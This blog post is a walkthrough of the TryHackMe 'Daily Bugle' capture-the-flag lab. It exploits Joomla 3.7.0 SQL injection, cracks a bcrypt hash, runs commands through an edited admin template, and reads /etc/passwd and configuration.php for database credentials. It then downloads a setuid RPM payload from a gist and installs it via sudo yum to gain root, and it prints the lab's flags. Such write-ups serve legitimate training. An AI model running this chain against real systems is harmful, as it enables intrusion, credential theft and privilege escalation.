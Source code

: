 ```yaml
---
title: "Daily Bugle"
date: 2020-02-06T15:33:06+01:00
draft: false
tags: ["ctf", "tryhackme", "joomla", "sqli", "yum", "priviledge escalation"]
categories: ["ctf", "tryhackme"]
---
```


Hi guys, today we look at CTF called Daily Bugle and we try to gain root priviledges. :) 
Let's play.

__NOTICE: (SPOILER!!) If you would like to solve it by yourself, don't read this post!__

#### [Task 1]
First question is pretty simple. Open the article and you can find the answer

__Access the web server, who robbed the bank?__
- spiderman

#### [Task 2]
```bash
$ curl http://10.10.86.172/media/system/js/mootools-more.js 2>/dev/null | grep MooTools.More
MooTools.More={version:"1.4.0.1",build:"a4244edf2aa97ac8a196fc96082dd35af1abab87"};(function(){Events.Pseudos=function(h,e,f){var d="_monitorEvents:";var c=function(i){return{store:i.store?function(j,k){i.store(d+j,k);
```
```bash
$ curl http://10.10.86.172/language/en-GB/en-GB.xml
<?xml version="1.0" encoding="utf-8"?>
<metafile version="3.7" client="site">
        <name>English (en-GB)</name>
        <version>3.7.0</version>
        <creationDate>April 2017</creationDate>
        <author>Joomla! Project</author>
        <authorEmail>admin@joomla.org</authorEmail>
        <authorUrl>www.joomla.org</authorUrl>
        <copyright>Copyright (C) 2005 - 2017 Open Source Matters. All rights reserved.</copyright>
        <license>GNU General Public License version 2 or later; see LICENSE.txt</license>
        <description><![CDATA[en-GB site language]]></description>
        <metadata>
                <name>English (en-GB)</name>
                <nativeName>English (United Kingdom)</nativeName>
                <tag>en-GB</tag>
                <rtl>0</rtl>
                <locale>en_GB.utf8, en_GB.UTF-8, en_GB, eng_GB, en, english, english-uk, uk, gbr, britain, england, great britain, uk, united kingdom, united-kingdom</locale>
                <firstDay>0</firstDay>
                <weekEnd>0,6</weekEnd>
                <calendar>gregorian</calendar>
        </metadata>
        <params />
</metafile>
```

We found it.

__What is the Joomla version?__
- 3.7.0

After some research of finding following exploits for SQL Injection in Joomla
- [sqlmap](https://www.exploit-db.com/exploits/42033)
- [metasploit](https://www.rapid7.com/db/modules/exploit/unix/webapp/joomla_comfields_sqli_rce)

I found the best way to solve this task and exploit the Joomla 3.7.0 SQLi vulnerability
- [python exploit](https://github.com/XiphosResearch/exploits)

```bash
$ git clone git@github.com:XiphosResearch/exploits.git
$ cd exploits/Joomblah
```

and finally run the exploit.
```bash
$ python2 joomblah.py http://10.10.86.172
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

Now we need to crack the hashed password, so we save [bcrypt hash](https://www.php.net/manual/en/function.password-hash.php) to file hashes.txt
and run.
```batchfile
c:\john-1.9.0-jumbo-1-win64\run>john.exe --wordlist=C:\Users\burso\Downloads\rockyou.txt --rules=wordlist --min-len=12 --max-len=12 ../hashes.txt
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)
1g 0:00:00:02 DONE (2020-02-07 10:54) 0.3846g/s 110.7p/s 110.7c/s 110.7C/s ilovepatrick..quetzalcoatl
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
__What is Jonah's cracked password?__
- spiderman123

After logged in to the __/administrator__ page with login __jonah__ and password __spiderman123__ we need to gain access to ssh.
go to page __/administrator/index.php?option=com_templates&view=template&id=506&file=L2luZGV4LnBocA__. We can edit __index.php__
of template so we can run any command on server and execute them via __Template Preview__. Before run you don't forget to save file. 
```php
system("id");
uid=48(apache) gid=48(apache) groups=48(apache) 
```

Now we now any command executed via Joomla Template will run under __apache__ user.
```php
system("cat /etc/passwd");
root:x:0:0:root:/root:/bin/bash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/spool/mail:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin games:x:12:100:games:/usr/games:/sbin/nologin ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin nobody:x:99:99:Nobody:/:/sbin/nologin systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin dbus:x:81:81:System message bus:/:/sbin/nologin polkitd:x:999:998:User for polkitd:/:/sbin/nologin sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin postfix:x:89:89::/var/spool/postfix:/sbin/nologin chrony:x:998:996::/var/lib/chrony:/sbin/nologin jjameson:x:1000:1000:Jonah Jameson:/home/jjameson:/bin/bash apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin 
```
We can see user jonah has __jjameson__ username in ssh login, so we need password now.

```php
system("cat configuration.php");
Please check back again soon.'; public $display_offline_message = '1'; public $offline_image = ''; public $sitename = 'The Daily Bugle'; public $editor = 'tinymce'; public $captcha = '0'; public $list_limit = '20'; public $access = '1'; public $debug = '0'; public $debug_lang = '0'; public $dbtype = 'mysqli'; public $host = 'localhost'; public $user = 'root'; public $password = 'nv5uz9r3ZEDzVjNu'; public $db = 'joomla'; public $dbprefix = 'fb9j5_'; public $live_site = ''; public $secret = 'UAMBRWzHO3oFPmVC'; public $gzip = '0'; public $error_reporting = 'default'; public $helpurl = 'https://help.joomla.org/proxy/index.php?keyref=Help{major}{minor}:{keyref}'; public $ftp_host = '127.0.0.1'; public $ftp_port = '21'; public $ftp_user = ''; public $ftp_pass = ''; public $ftp_root = ''; public $ftp_enable = '0'; public $offset = 'UTC'; public $mailonline = '1'; public $mailer = 'mail'; public $mailfrom = 'jonah@tryhackme.com'; public $fromname = 'The Daily Bugle'; public $sendmail = '/usr/sbin/sendmail'; public $smtpauth = '0'; public $smtpuser = ''; public $smtppass = ''; public $smtphost = 'localhost'; public $smtpsecure = 'none'; public $smtpport = '25'; public $caching = '0'; public $cache_handler = 'file'; public $cachetime = '15'; public $cache_platformprefix = '0'; public $MetaDesc = 'New York City tabloid newspaper'; public $MetaKeys = ''; public $MetaTitle = '1'; public $MetaAuthor = '1'; public $MetaVersion = '0'; public $robots = ''; public $sef = '1'; public $sef_rewrite = '0'; public $sef_suffix = '0'; public $unicodeslugs = '0'; public $feed_limit = '10'; public $feed_email = 'none'; public $log_path = '/var/www/html/administrator/logs'; public $tmp_path = '/var/www/html/tmp'; public $lifetime = '15'; public $session_handler = 'database'; public $shared_session = '0'; } 
```
Interesting. We can try the password to database if it is not the same to __jjameson__ ssh login.
- __username__: jjamesson
- __password__: nv5uz9r3ZEDzVjNu

```bash
$ ssh jjameson@10.10.86.172
jjameson@10.10.162.2's password: 
Last failed login: Fri Feb  7 10:07:52 EST 2020 from ip-10-8-11-158.eu-west-1.compute.internal on ssh:notty
There were 724 failed login attempts since the last successful login.
Last login: Mon Dec 16 05:14:55 2019 from netwars
```

Yes, everything works! 
```bash
[jjameson@dailybugle ~]$ ls
user.txt
[jjameson@dailybugle ~]$ cat user.txt 
27a260fe3cba712cfdedb1c86d80442e
```

__What is the user flag?__
- 27a260fe3cba712cfdedb1c86d80442e

The last step is gain root access on this machine. So let's do it!

```bash
[jjameson@dailybugle ~]$ sudo -l                                                                                                                                                                                    
Matching Defaults entries for jjameson on dailybugle:                                                                                                                                                               
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS     
    LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET       
    XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin                                                                                                                                                       
                                                                                                                                                                                                                    
User jjameson may run the following commands on dailybugle:                                                                                                                                                         
    (ALL) NOPASSWD: /usr/bin/yum
```
__Yum__ is the only one command you can run under __root__ and that's security missconfiguration. 
More about the vulnerability you can find [here](https://lsdsecurity.com/2019/01/more-linux-privilege-escalation-yum-rpm-dnf-nopasswd-rpm-payloads/).
You can download the exploit [here](https://gist.githubusercontent.com/neoice/797777cb0832f596a70b6cba7bbbcc4f/raw/f3f94e105c23d2c01706736d9cd729dd555e9c53/setuid-pop.rpm)

So let's download the exploit and copy to vulnerable server
```bash
$ wget https://gist.githubusercontent.com/neoice/797777cb0832f596a70b6cba7bbbcc4f/raw/f3f94e105c23d2c01706736d9cd729dd555e9c53/setuid-pop.rpm
$ scp setuid-pop.rpm jjameson@10.10.86.172:~
```

Now extract the exploit and install it via __yum__
```bash
[jjameson@dailybugle ~]$ cat setuid-pop.rpm | base64 -d | gzip -d > yumsploit.rpm
[jjameson@dailybugle ~]$ sudo yum localinstall ~/yumsploit.rpm 
Loaded plugins: fastestmirror
Examining /home/jjameson/yumsploit.rpm: sploit-1.0-1.x86_64
Marking /home/jjameson/yumsploit.rpm to be installed
Resolving Dependencies
--> Running transaction check
---> Package sploit.x86_64 0:1.0-1 will be installed
--> Finished Dependency Resolution

Dependencies Resolved
...
Downloading packages:
Running transaction check
Running transaction test
Transaction test succeeded
Running transaction
  Installing : sploit-1.0-1.x86_64                                                                                                                                                                              1/1 
  Verifying  : sploit-1.0-1.x86_64                                                                                                                                                                              1/1 

Installed:
  sploit.x86_64 0:1.0-1                              

Complete!
```

We have installed __pop__ binary in __/usr/local/bin__ directory with __setuid bit__.
That means __pop__ binary will be runned with __root__ priviledges. 
```bash
meson@dailybugle ~]$ ls -la /usr/local/bin
total 12
drwxr-xr-x.  2 root root   17 Feb  7 10:43 .
drwxr-xr-x. 12 root root  131 Dec 14 13:57 ..
-rwsr-sr-x   1 root root 8744 Jan 18  2019 pop
```

Let's execute it.
```bash
[jjameson@dailybugle ~]$ pop
[root@dailybugle ~]# id
uid=0(root) gid=0(root) groups=0(root),1000(jjameson) 
[root@dailybugle ~]# cat /root/root.txt
eec3d53292b1821868266858d7fa6f79
```

Done! We have now __root__ priviledges.

__What is the root flag?__
- eec3d53292b1821868266858d7fa6f79

